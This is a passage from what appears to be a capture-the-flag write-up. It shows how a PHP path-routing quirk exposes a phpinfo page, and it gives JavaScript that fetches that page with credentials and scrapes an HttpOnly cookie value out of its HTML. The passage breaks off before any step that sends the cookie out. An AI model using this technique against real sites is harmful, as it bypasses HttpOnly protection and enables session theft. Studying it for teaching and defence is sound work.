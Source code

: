 A little quirk about this configuration is requests to `/a.php/b.php` will actually be passed in as `$document_root/a.php`----- That's our way into the PHP info page!

We can test this by going to `/info.php/index.php`, and would you look at that, that's the PHP info page in front of us! Looks like we know what to fetch to find the cookie now!

On the same instance that I've injected the cookie `test=yes`, even after marking it as `HttpOnly`, you can still find it displayed in the info page under the entry `$_COOKIE['test']`. Let's try to get it displayed just through the query first. My method is by using this script:

```js
fetch("info.php\index.php", { credentials: "include" })
    .then(request => request.text())
    .then(data => document.body.innerHTML = data);
```

What this does is fetch the info page, then replacing the original page's body with the PHP page, so we can work with it. An inspection through the tables' HTML, we can see the content is laid out as such:

```html
<tr>
    <td class="e">$_COOKIE['test']</td>
    <td class="v">yes</td>
</tr>
```

It's time for some HTML scraping!

## HTML scraping, my beloved

So, there are *hundreds* of entries like the above, with the only difference being the inner text. How do I fetch the specific thing I want? Here, let me show you.

```js
const element = Array.from(document.getElementsByClassName("e")).filter(item => item.innerText === "$_COOKIE['test']")[0];

const value = element.parentElement.children[1].innerText;

console.log(value);
// yes
```

The code itself should be self-explanatory, but if you need an explanation:

- I grab all elements with the class `e` - this is all the keys on the left side of the table - then filtering for the element that has the exact text I'm looking for, in this case `$_COOKIE['test']`.
- I grab this element's parent element, which should be the `<tr>` in the example above.
- Knowing that this element has exactly two children, I grab the second one (index `1`), and this should be the value of the key I'm looking for.

## Putting all this together

With all of this knowledge, our game plan is clear:
